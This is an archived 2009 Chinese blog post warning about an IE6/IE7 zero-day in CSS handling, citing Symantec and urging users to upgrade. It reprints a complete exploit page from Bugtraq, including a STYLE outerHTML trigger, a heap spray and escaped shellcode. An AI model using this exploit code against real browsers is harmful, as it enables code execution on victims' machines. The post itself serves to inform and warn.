 ```yaml
---
layout: post
title: IE6/IE7 0day 漏洞
date: 2009/11/22/ 16:52:14
updated: 2009/11/22/ 16:52:14
status: publish
published: true
type: post
---
```




昨天（2009年11月21日），Symantec发布了[IE的一个0day安全漏洞的消息](http://www.symantec.com/connect/blogs/zero-day-internet-explorer-exploit-published)。关于这个消息，截止本文发布时，在中文社区里还没有报导。这是一个关于IE6/IE7处理CSS时的一个漏洞（[关于IE和CSS的BUG](https://coolshell.cn/articles/1817.html)）。如果你目前还在使用IE6/IE7，那你现在可能是你升级的时候了，当然，有很多人说IE8是没有问题的，但我个人还是建议在补丁出来之前先使用Firefox或Chrome。


根据Symantec的的报告，他们在第一时间内测试了那个“Exploit Code”（攻击代码），根据测试结果表时，那个JavaScript的攻击代码并不是100%的可靠，而且很不可靠，但安全专家相信，100%完全可靠的“攻击代码”将会马上出现。这意味着，这段攻击代码会马上如潮水一样地放在各个有恶意的网站上，然后，所有的IE6/IE7的，打开JavaScript的用户都会被危及。


目前，这段攻击代码，虽然很不可靠，但已经被证明在IE6/IE7的 Windows XP SP3上是可靠的，目前还没有相关报告说明有多少台电脑中招了，但我相信，在过去的这个周末，一定有一些人在拼命地在改善这段攻击代码，他们要赶在相关的补丁出来之前。而Microsoft，相信他还是和以前一样，一定要等到攻击很广泛的时候才会开始真正把补丁提上日程。


最后，说一下攻击代码，这个代码是在[Bugtraq邮件组](http://seclists.org/bugtraq/2009/Nov/148)中，这段攻击代码如下所示，这段代码攻击性并不可靠。




```
<!--
securitylab.ir
K4mr4n_st () yahoo com
-->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"<a href="http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd</a>";>
<HTML xmlns=<a href="http://www.w3.org/1999/xhtml">http://www.w3.org/1999/xhtml</a>;>
    <HEAD>
<script>  
            function load(){
                var e;
                e=document.getElementsByTagName("STYLE")[0];
                e.outerHTML="1";
            }
        </script>    
        <STYLE type="text/css">
            body{ overflow: scroll; margin: 0; }
        </style>
       
        <SCRIPT language="javascript">
var shellcode =
unescape("%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120%u49EB%u348B%u018B%u31EE%u99C0%u84AC%u74C0%uC107%u0DCA%uC201%uF4EB%u543B%u0424%uE575%u5F8B%u0124%u66EB%u0C8B%u8B4B%u1C5F%uEB01%u1C8B%u018B%u89EB%u245C%uC304%uC031%u8B64%u3040%uC085%u0C78%u408B%u8B0C%u1C70%u8BAD%u0868%u09EB%u808B%u00B0%u0000%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE2D8%u6873%uFE98%u0E8A%uFF57%u63E7%u6C61%u0063");
var bigblock = unescape("%u9090%u9090");
var headersize = 20;
var slackspace = headersize+shellcode.length;
while (bigblock.length<slackspace) bigblock+=bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length-slackspace);
while(block.length+slackspace<0x40000) block = block+block+fillblock;
memory = new Array();
for (x=0; x<4000; x++) memory[x] = block + shellcode;
</script>
 
    </HEAD>   
    <BODY onload="load()">
    </BODY>
</HTML>
```

 





**（转载本站文章请注明作者和出处 [酷 壳 – CoolShell](https://coolshell.cn/) ，请勿用于任何商业用途）**



### 相关文章

* [![一次Ajax查错的经历](https://coolshell.cn/wp-content/uploads/2012/08/ajax_error-150x150.jpg)](https://coolshell.cn/articles/8170.html)[一次Ajax查错的经历](https://coolshell.cn/articles/8170.html)
* [![做个环保主义的程序员](https://coolshell.cn/wp-content/uploads/2012/04/Green-Computing-150x150.jpg)](https://coolshell.cn/articles/7186.html)[做个环保主义的程序员](https://coolshell.cn/articles/7186.html)
* [![10大经典错误](https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/5.jpg)](https://coolshell.cn/articles/5107.html)[10大经典错误](https://coolshell.cn/articles/5107.html)
* [![新浪微博的XSS攻击](https://coolshell.cn/wp-content/uploads/2011/06/sina_xss01-150x150.png)](https://coolshell.cn/articles/4914.html)[新浪微博的XSS攻击](https://coolshell.cn/articles/4914.html)
* [![中国仍是IE6的重灾区](https://coolshell.cn/wp-content/uploads/2011/03/IE6-Countdown-150x150.png)](https://coolshell.cn/articles/3921.html)[中国仍是IE6的重灾区](https://coolshell.cn/articles/3921.html)
* [![微软用新浪来当反面教材](https://coolshell.cn/wp-content/uploads/2011/03/affc-image1-150x150.png)](https://coolshell.cn/articles/3872.html)[微软用新浪来当反面教材](https://coolshell.cn/articles/3872.html)
The post [IE6/IE7 0day 漏洞](https://coolshell.cn/articles/1835.html) first appeared on [酷 壳 - CoolShell](https://coolshell.cn).